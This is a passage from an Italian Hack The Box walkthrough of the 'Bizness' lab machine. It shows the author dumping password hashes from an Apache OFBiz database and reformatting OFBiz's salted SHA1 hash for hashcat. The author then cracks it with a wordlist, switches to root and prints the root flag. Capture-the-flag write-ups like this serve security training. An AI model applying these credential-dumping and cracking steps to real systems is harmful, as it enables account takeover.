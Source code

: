 La prima colonna specifica lo schema della tabella, quindi possiamo scaricarne il contenuto come segue:

```bash
SELECT USER_LOGIN_ID,CURRENT_PASSWORD FROM OFBIZ.USER_LOGIN;

USER_LOGIN_ID               |CURRENT_PASSWORD
        ---------------------------------------------------------------

system                         |NULL
anonymous                      |NULL
admin                          |$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
3 rows selected
```

Se diamo impasto l'hash ad [John The Ripple](../Note/Tool/John%20The%20Ripple.md) o [Hashcat](../Note/Tool/Hashcat.md) riceviamo errori, ci deve essere qualcosa di stano nell'hash

Facendo  qualche ricerca. Mi imbatterò in [questo](https://issues.apache.org/jira/browse/OFBIZ-10843) post del 2015

Quindi è probabile che sia SHA1. Fa riferimento a cryptBytes, una funzione che assomiglia a:

`cryptBytes​(java.lang.String hashType, java.lang.String salt, byte[] byte)

Richiede un tipo, un salt ,dei bytes e restituisce un hash nel formato $SHA$[stuff]$[stuff], che è lo stesso formato del mio hash.

Se guardo l'ultima sezione del mio hash, è codificata base64
![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/bizness3.webp)

quindi se `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` è lo SHA1 codificato base64, lasciamo "d" come salt. hashcat prende il formato hash:salt, che posso inserire in un file:

```bash
┌──(root㉿kali)-[/home/kali/htb/bizness/Apache-OFBiz-Authentication-Bypass]
└─# cat hash_mod
b8fd3f41a541a435857a8f3e751cc3a91c174362:d
```

proviamo a rompere l'hash con [Hashcat](../Note/Tool/Hashcat.md)
```bash
┌──(root㉿kali)-[/home/kali/htb/bizness/Apache-OFBiz-Authentication-Bypass]
└─# hashcat -m 120 -a 0 hash_mod /usr/share/wordlists/rockyou.txt --show
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

Passiamo all'utente root e ci prendiamo la nostra root flag

```bash
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ su root
Password:
root@bizness:/opt/ofbiz/runtime/data/derby# cat /root/root.txt
28d4254d4a577f17b9bdd3131f15c08b
```
